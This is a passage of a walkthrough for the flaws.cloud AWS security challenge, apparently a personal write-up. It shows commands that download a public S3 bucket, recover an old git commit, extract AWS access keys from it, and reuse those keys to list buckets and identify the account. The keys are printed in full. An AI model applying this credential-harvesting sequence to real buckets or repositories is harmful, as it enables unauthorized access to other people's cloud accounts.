 Download entire s3 bucket locally

    aws s3 sync s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/ . --no-sign-request --region us-west-2

![](https://paper-attachments.dropbox.com/s_6D19BB1F45E592221C2BD8A330A211A728A82C8FB50B08B3D5519C6EEB837193_1642195932254_image.png)

Inspect git log

    git log

![](https://paper-attachments.dropbox.com/s_6D19BB1F45E592221C2BD8A330A211A728A82C8FB50B08B3D5519C6EEB837193_1642196063766_image.png)

Note that a comment of accident commit.

checkout git commit 

    git checkout b64c8dcfa8a39af06521cf4cb7cdce5f0ca9e526

![](https://paper-attachments.dropbox.com/s_6D19BB1F45E592221C2BD8A330A211A728A82C8FB50B08B3D5519C6EEB837193_1642196434585_image.png)

performing a directory search `access_keys.txt` is discovered

    access_key AKIAJ366LIPB4IJKT7SA                                                 secret_access_key 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

![](https://paper-attachments.dropbox.com/s_6D19BB1F45E592221C2BD8A330A211A728A82C8FB50B08B3D5519C6EEB837193_1642196464780_image.png)

**Configure new aws profile** 

    aws configure --profile flaws
    aws --profile flaws s3 ls

![](https://paper-attachments.dropbox.com/s_6D19BB1F45E592221C2BD8A330A211A728A82C8FB50B08B3D5519C6EEB837193_1642196786577_image.png)

List of files in s3 bucker are displayed


# Level 4 - Creating snapshot - create instance loading snapshot

The next level is at [http://level4-1156739cfb264ced6de514971a4bef68.flaws.cloud](http://level4-1156739cfb264ced6de514971a4bef68.flaws.cloud/)

Note: Always roll keys if you suspect they were compromised..

For the next level, you need to get access to the web page running on an EC2 at [4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud](http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/)

**Identify account ID**

    aws --profile flaws sts get-caller-identity

![](https://paper-attachments.dropbox.com/s_6D19BB1F45E592221C2BD8A330A211A728A82C8FB50B08B3D5519C6EEB837193_1642200047179_image.png)

Account id: 975426262029

**View ec3 backups**

